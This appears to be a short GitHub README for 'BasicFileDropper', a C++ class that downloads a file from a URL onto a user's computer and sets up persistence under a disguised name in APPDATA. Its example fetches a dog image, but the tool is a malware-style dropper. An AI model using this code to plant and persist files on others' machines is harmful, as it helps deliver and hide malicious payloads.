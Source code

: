 # BasicFileDropper
Drops a file on the user's computer, allows for program persistence as well

example:

```cpp
int main()
{
    c_dropper payload("https://post.medicalnewstoday.com/wp-content/uploads/sites/3/2020/02/322868_1100-800x825.jpg", 
    "C:\\dog.jpg", true, c_dropper::persistence_t(true, "dog.jpg","Dog pic", c_dropper::persistence_t::APPDATA));
    payload.drop();

    return 0;
}
```
